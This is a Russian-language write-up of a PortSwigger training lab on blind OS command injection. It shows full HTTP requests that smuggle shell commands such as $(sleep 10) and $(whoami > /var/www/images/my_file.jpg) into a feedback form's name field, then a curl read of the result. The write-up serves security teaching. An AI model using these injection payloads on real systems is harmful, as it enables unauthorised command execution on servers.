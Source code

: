 ```yaml
---
title: "Blind OS command injection with output redirection"
date: 2025-06-26
tags: [os_command_injection, writeup, web]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection"
classes: wide
---
```


Содержит уязвимость **Blind OS command injection**. Для прохождения нужно запустить `whoami` и получить ответ.

```
https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/
```

## Solution

Бегом ковырять форму обратной связи) Соберу `HTTP` запрос:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=name&email=email%40mail.com&subject=subeject&message=message
```

Проверю поля:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 110
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(sleep 10)&email=email%40mail.com&subject=subeject&message=message
```

Поле `name` уязвимо, значит можно использовать его для запуска шелла. Нужно как-то получить вывести информацию на сайт. На сайте есть картинки. Если для хостинга используется `appache`, то можно попробовать создать файл в `/var/www/images`. Проверю, что эта директория есть:

```bash
if test -d "/var/www/images"; then sleep 10; fi
```

В данной строке я проверяю, что `/var/www/images` — это директория. Если это так, то вызываю `sleep 10`:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 149
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(if test -d "/var/www/images"; then sleep 10; fi)&email=email%40mail.com&subject=subeject&message=message
```

Я получил нужную задержку:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_output_redirection/1.png){: height="200" .align-center}

Попробую создать файл:

```http
POST /feedback/submit HTTP/2
Host: 0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Cookie: session=j59254npT3m9vkCo4vKcazNtjtjv6vqc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/feedback
Content-Type: application/x-www-form-urlencoded
Content-Length: 140
Origin: https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

csrf=HvTHIyttOlZUyY0u3zSf9UZGnAiwDFtM&name=$(whoami > "/var/www/images/my_file.jpg")&email=email%40mail.com&subject=subeject&message=message
```

Прочитаю файл через `curl`:

```bash
cu63:~/ $ curl https://0a3300bb04b6dd9981967abf00ec00ac.web-security-academy.net/image\?filename\=my_file.jpg                      
peter-nYlJLk
```

Лаба решена:

![IMG](/assets/images/IMG_os_command_injection/IMG_Blind_OS_command_injection_with_output_redirection/2.png){: height="200" .align-center}